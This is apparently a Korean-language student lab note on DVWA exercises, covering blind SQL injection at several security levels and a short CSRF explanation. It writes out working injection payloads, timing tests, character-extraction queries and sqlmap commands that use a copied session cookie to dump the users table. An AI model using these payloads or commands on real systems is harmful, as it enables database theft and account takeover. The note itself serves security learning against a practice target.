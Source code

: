 # DVWA 03

---

# SQL Injection(blind)


악용되면 데이터베이스의 정보를 다 털 수 있다. 매우위험!!


검색엔진 등에서 주로 테스트됨. 결과가 true 혹은 false로 나타날 때 시도할 수 있음. 


* database의 information 스키마? 여기에 mysql의 메타데이터, 모든 정보가 담겨있다고 함. 그래서 주로 여기에 공격이 시도됨. DB명, 테이블명 등을 모두 포함하기 때문.




blind sql injectioin이 가능한지 확인하기?


`1' OR 1=1#` 이 쿼리가 먹는지 확인한다. true가 뜨면 되는거.


그리고 `1' AND 1=2#`에서 false가 나오는지 확인.


sleep?이라는걸 쓸수도 있대. delay를 살짝 주는 것.


`1' AND sleep(5)#` 이래 입력하고 검색결과가 5초 뒤에 나오는지 확인한다. 그러면 트루인거임.




<br></br>
---

## low






> `1' AND ascii(substr((select first_name from users where user_id='1'), 1, 1))>91#`


* `(select first_name from users where user_id='1')` 이거의 결과값을 이하 함수의 첫 인자로 사용 
* `substr()` 첫 인자의 몇번째부터 몇개를 따올건지 세개의 파라미터로 지정해줌. 
* `ascii()` ascii값으로 변환하는 함수. 


하나씩 늘려가며 대입해봤을 때 **가장 먼저 false가 뜨는 그 값**이 아이디의 첫 글자라고 유추할 수 있겠다. 

* substr((select first_name from users where user_id='1'), **n**, 1)) 이면 n번째 글자를 의미함. 


사람이 다 하기엔 너무 노가다라서... 이걸 자동화해서 터는... 그런 툴이 있다. SQL MAP이라는건데


[SQL_MAP_download](https://sqlmap.org/)


확인 가능한 폴더에서 압축 풀어주고,


해킹하고자 하는 사이트의 개발자도구(F12) 콘솔에 다음과 같이 입력해준다.


> `console.log(document.cookie);`


그리고 뜨는 이거를 카피해서

![SI_low1](https://github.com/leeejjju/GBC33_SECURITY/blob/main/img/SI_low1.jpg)



`security=low; PHPSESSID=7cjf6r14an9h4b5lmqsabcqhvr`



아까 SQL MAP을 다운받은 경로에서 다음과 같이 입력


> `python sqlmap.py -u "[대상 링크]" --cookie="[아까복사한쿠키]"`



> `python sqlmap.py -u "http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=7cjf6r14an9h4b5lmqsabcqhvr" `

* --current-db 하면 현재 웹사이트에서 사용하는 DB명을 알 수 있음

![SI_low2](https://github.com/leeejjju/GBC33_SECURITY/blob/main/img/SI_low2.jpg)

* -D [DB명, ex) dvwa] --tables 하면 테이블명 알아내기. 

* -T [table명, ex) users] -dump 하면 뭐냐 해당 테이블의 덤프를 딴다고? 

-- 덤프란? 데이터를 압축해서 새로운 뭔가를 만드는... 전체 조회? 느낌으로도 사용되는듯


![SI_low3](https://github.com/leeejjju/GBC33_SECURITY/blob/main/img/SI_low3.jpg)



<br></br>
---

## medium


proxy를 사용하되 low와 기본적인건 동일함. 

> proxy의 ID부분 인자를 `1 AND ascii(substr((select first_name from users where user_id=1),1,1))>91#`으로 변경 후 forward


![SI_mid1](https://github.com/leeejjju/GBC33_SECURITY/blob/main/img/SI_mid1.jpg)


<br></br>
---

## high



얘도 끝에 주석만 잘 넣어주면 low랑 똑같다! 


굿. 


<br></br>
---

## impossible


예아. 




<br></br>
---

# CSRF



pw를 바꿀 때 뭔가 권한접근을 따내는거.


새로운 패스워드를 바꾸려할 때 파라미터가 get방식으로 웹 창에 다 보이자나


그럼 그거를 조작하는 방식이에용...


원하는 pw로 변경하고 submit했을 때의 그 URL을 short시켜서, 그럴듯한 가짜 링크에서 리다이렉션되도록 해둔 뒤... 


누군가 링크로 들어가면 그 유저의 패스워드가 해커가 설정해둔걸로 변경되는 것. 


기존 pw를 함께 입력하게 한다던가 토큰을 써서 접근권한을 제한하면 막을 수 있다. 



**굿**





